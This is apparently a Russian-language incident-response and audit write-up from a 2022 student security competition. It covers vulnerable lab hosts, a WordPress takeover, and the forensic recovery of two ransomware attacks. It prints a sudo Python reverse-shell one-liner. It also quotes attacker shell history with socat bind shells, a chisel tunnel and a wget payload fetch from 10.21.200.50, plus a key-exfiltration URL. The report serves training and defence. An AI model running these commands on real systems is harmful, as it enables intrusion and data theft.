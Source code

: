 # SHP_Legacy. Итоговый отчет.

[https://github.com/LeKSuS-04/SHP_Legacy-NTO-IB-2022](https://github.com/LeKSuS-04/SHP_Legacy-NTO-IB-2022)

# Инвентаризация хостов в сети.

Итоговая таблица с хостами — [https://docs.google.com/spreadsheets/d/1Te-sVO8-XK4EdTF308-Wo0M87aBSfwMA8wRlS6GVnMY/edit#gid=0](https://docs.google.com/spreadsheets/d/1Te-sVO8-XK4EdTF308-Wo0M87aBSfwMA8wRlS6GVnMY/edit#gid=0)

Просканировав все сегменты сети сканером портов определим версии ПО установленного на конеченых устройствах. С помощью этих данных выделим уязвимые машины, их всего 6:

1. 10.21.2.11 — Уязвим к Drupageddon2(CVE-2018-7600)
2. 10.21.2.12 — Уязвим к Eternalblue(CVE-2017-0144)
3. 10.21.4.8 — Уязвим к Eternalblue(CVE-2017-0144)
4. 10.21.239.5 — Уязвим к Eternalblue(CVE-2017-0144)
5. 10.21.239.6 — Уязвим к Eternalblue(CVE-2017-0144)
6. 10.21.240.14 — Уязвим к Eternalblue(CVE-2017-0144)

Данные машины представляют для нас наибольший интерес, тк будучи уязвимыми, они наверняка подверглись атаки, так что расследование инцидентов разумно начинать с них.

Так же на ip 10.21.1.254 находится IDS Suricata.

Более подробно ознакомится с хостами можно в таблице, указанной выше.

# Аудит сайта с WordPress(10.21.2.10).

На данном веб-сайте используются стандартные учетные данные для администраторской учетной записи(admin:admin), вход за которую дает полный контроль над сайтом. Более того, WP имеет функционал загрузки и запуска плагинов, что позволяет прокинуть реверс шелл на саму машину. Достаточно загрузить плагин, который его прокидывает и запустить его. Либо же воспользоваться существующими эксплойтами для метасплойта, например этим: [https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)

Таким образом мы получаем удаленный доступ к машине за юзера www-data. Изучив окружение, можго заметить, что python запускается от sudo без пароля, что позволяет получить рут доступ к машине. Например с помощью след команды:

```bash
sudo python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.5.12",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Для закрытия этих уязвимостей необходимо поменять пароль администратора WP на любой надежный. А также поставить пароль на запуск python’а от имени sudo юзера. 

# Расследование атаки на 10.21.239.6.

С помощью уязвимости eternalblue можно удаленно подключатся к уязвимым хостам, на одном из хостов на ip 10.21.239.6 в папке share находим зашифрованные файлы, в том числе зашифрованный флаг. 

При детальном изучении логов powershell'a становится понятно, как именно произвоидлась атака:

1. Злоумышленник проникает в систему через уязвимость eternalblue.
2. Злоумышленник скачивает шифровальщик Ransom.ps1 с ip 10.21.200.50.
3. Шифровальщик использует AES CBC с длинной блока в 128 бит и длиной ключа в 256 бит.
4. При запуске шифровальщика генерируются ключ и iv и отправляются обратно злоумышленнику вместе с именем компьютера на тот же ip.
5. Далее шифруются все файлы .pdf, .txt, .doc, .docx, .jpg.

Найдя в логах нужный запрос, можно узнать iv и ключ, а соответсвенно расшифровать все файлы. Нужный нам запрос: 

```bash
http://10.21.200.50/key=Z2igSNGo+qfqpeHho2EL+Q9bljHZc8GsnJZ9F0MOPPY=&iv=ouzDB5yS8sOQR8gBiQ+hIw==&pc=OIK-CLIENT"
```

Зная ключ и IV с легкостью дешифруем файлы с помощью скрипта decryptor.py

Прочитаем флаг: Gravissimum est imperium consuetudinis.

Для устранения уязвимости необходимо обновить версию протокола smb до актуальной. А также сменить пароли всех УЗ, для исключения возможности подключения злоумышленника по RDP с компрометированным паролем. 

Подобные меры необходимо принять на всех машинах, уязвимых к eternalblue. 

# Расследование атаки на Киберполигон(10.21.2.11).

На данной машине используется drupal7 , уязвимый к CVE-2018-7600(drupageddon2). Данная уязвимость позволяет получить удаленный доступ к машине за юзера www-data.

Подключившись к машине находим в папке /var/www/html зашифрованные php файлы и флаг. 

Также обнаруживается исполняемый файл sploit, который является эксплойтом для повышения привилегий до root юзера через уязвимость Dirty Cow(CVE-2016-5195). Данный файл был оставлен злоумышленником.

При изучении файла .bash_history у рут юзера находим следующие строки:

```bash
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.21.200.50:8083 R:socks 2>1 > /dev/null && exit
cd /var/www/html/; rm *.encr chisel* socat* sploit*; pkill -f socat; pkill -f chisel; cp /home/debian/drupal-7.54/*.php /var/www/html
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.21.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.21.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
```

А в файле syslog.7 в /var/logs/ находим следующую команду:

```bash
Mar  5 17:38:33 osan-portal2 tag_audit type=EXECVE msg=audit(1646482548.904:45916): argc=13 a0="openssl" a1="enc" a2="-aes-256-cbc" a3="-a" a4="-salt" a5="-in" a6="/var/www/html/21FLAG.txt" a7="-out" a8="/var/www/html/21FLAG.txt.encr" a9="-pass" a10="pass:8735176D7C" a11="-iv" a12="F81D977E1765638912EFD58FA7BC33A5"
```

Таким образом можно восстановить последовательность действий злоумышленника:

1. С помощью CVE-2018-7600(drupageddon2) получает удаленный доступ к машине.
2. Скачивает sploit для повышения привилегий до root через CVE-2016-5195(Dirty Cow) и повышает их.
3. Прокидывает туннель к себе на сервер через утилиту chisel и скачивает файл encr.sh.
4. Шифровальщик [encr.sh](http://encr.sh) шифрует файлы, используя утилиту openssl.
5. Удаляет компрометирующие файлы.

Зная IV и ключ дешифруем файлы при помощи команды:

```bash
openssl aes-256-cbc -d -a -in 21FLAG.txt.encr -out flag.txt -iv F81D977E1765638912EFD58FA7BC33A5 -pass "pass:8735176D7C"
```

Флаг: Ante volare cave, quam procrescant tibi pennae.

Для устранения этих уязвимостей необходимо обновить Drupal и Debian до актуальных версий.